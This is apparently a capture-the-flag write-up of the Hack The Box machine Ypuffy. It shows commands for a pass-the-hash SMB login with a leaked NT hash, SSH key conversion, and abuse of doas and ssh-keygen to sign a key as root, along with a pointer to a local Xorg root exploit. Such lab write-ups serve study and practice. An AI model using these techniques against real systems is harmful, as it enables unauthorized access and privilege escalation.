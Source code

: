 ```yaml
---
title: Ypuffy
date: 2019-02-09
# bookComments: false
# bookSearchExclude: false
---
```


<p align="center">
  <img src="ypuffy-Banner.png" />
</p>

***

# External Recon
Let's start with nmap. But let's spice it up a bit with an additional script:

`nmap -sC -sV -oN initial --script discovery 10.10.10.107`

The output is quite big. You can the output <a href="https://www.tagnull.de/post/ypuffy/nmap.txt">here</a>.

The script tries to get as much information as possible of your target and in this case shows some LDAP information
and the following open ports:

| Open Ports |
|:----------:|
|22, 80, 139, 389, 445|

# Explore
The `sambaNTPassword` Hash immediately caught my attention.

{{< highlight bash >}}
sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
{{< / highlight >}}

![Alice-Hash](alice-hash.png)

As this is very juicy information. I paused my enumeration and tried to exploit this.
But how?

Password hashes are often used as a substitude to passwords. Which means, you don't
need the original password to authenticate to a service. Just the hash. This is how
your corporate single-sign-on stuff works. Otherwise you would have to login every time.
So it's a convenience thing.

The method is called Pass-The-Hash. And of cause there are tools out there, that help
you with this. Like: `pth-smbclient`. If you don't have it, just got to github and get the `pth-toolkit`.

# Exploit
After fiddeling around with the options, syntax and where to connect to I managed to connect to alice
share:

`pth-smbclient --user=alice1978 --pw-nt-hash -m smb3 \\\\10.10.10.107\\alice 0B186E661BBDBDCF6047784DE8B9FD8B`

And we find a private key in "ppk" format.

![SMB-Connect-Alice](smb-connect-alice.png)

After downloading the file, and trying to use it as a key to access ssh I got an error.
This format is not compatible with ssh. So, I tried converting it. A quick googlesearch helped
me finding the correct command for this task. But first we need to install putty-tools.

{{< highlight bash >}}
puttygen my_private_key.ppk -O private-openssh -o id_rsa
mv ~/.ssh
chmod 600 id_rsa
ssh -i id_rsa alice1978@10.10.10.107
{{< / highlight >}}

# User Flag

As you can see in the screenshot. A simple `ls` gives us the "user.txt".

![Shell-Alice](shell-alice.png)

# Internal Recon
A quick `uname -a` reveals a BSD box. Which was quite handy. Shortly after this box
was released an exploit for the XORG component of most BSD boxes was published. It's local privesc which gives you root access.
This is something you only get by googleing or being up-to-date with infosec news.
This was the route I took to root the box.

However the intended method was a bit more tricky. While searching the directory structure I noticed
a folder "userca".<br>
"CA" in this context mostly means "Certificate Authority" and is there to sign certificates or issue new keys. Let's say: "ssh".

Furthermore BSD has something like `sudo`, called `doas`. Let's check what we can do on this box.

{{< highlight bash >}}
ypuffy$ cat /etc/doas.conf
permit
keepenv :wheel
permit nopass alice1978 as userca cmd /usr/bin/ssh-keygen
{{< / highlight >}}

We indeed can run `ssh-keygen`. But when we try, we are prompted for a password. Let's dig deeper in the ssh route.
There's a password somewhere for sure.

{{< highlight bash >}}
ypuffy$ cat sshd_config
[...]
AuthorizedPrincipalsCommand /usr/local/bin/curl http://127.0.0.1/sshauth?type=principals&username=%u
{{< / highlight >}}

So, apparently we can issue a `curl` to the "CA"...I guess, not sure what happens here. I still need to look this up...

# Privilege Escalation
Let's step back and catch up with the XORG exploit first.
The exploit is fairly easy to use. Just get it from <a href="https://www.exploit-db.com/exploits/45742" target="_blank">Exploit-db</a>.
It's very easy to use.
* Download
* chmod +x
* run
* root
<br>
<br>

Let's get back to the `curl` command and check what we can do with it:

{{< highlight bash >}}
ypuffy$ /usr/local/bin/curl "http://127.0.0.1/sshauth?type=principals&username=root"
3m3rgencyB4ckd00r
{{< / highlight >}}

For whatever reason we get this string back: `3m3rgencyB4ckd00r` - obviously the missing password.
Let's create a key and try signing it.

{{< highlight bash >}}
ypuffy$ ssh-keygen -t rsa
ypuffy$ mv id_rsa.pub /tmp
ypuffy$ doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -n 3m3rgencyB4ckd00r -I "algo" -z 1 id_rsa.pub
  Signed user key id_rsa-cert.pub: id "algo" serial 1 for 3m3rgencyB4ckd00r valid forever
ypuffy$ cp id_rsa-cert.pub /home/alice1978/.ssh/
{{< / highlight >}}

This seems to work so far. But can we login now?

# Root Flag

{{< highlight bash >}}
ypuffy$ ssh root@localhost
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018
ypuffy# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
ypuffy# ls
  root.txt
{{< / highlight >}}

This is it. We got the box. =)

See ya next time!

x41
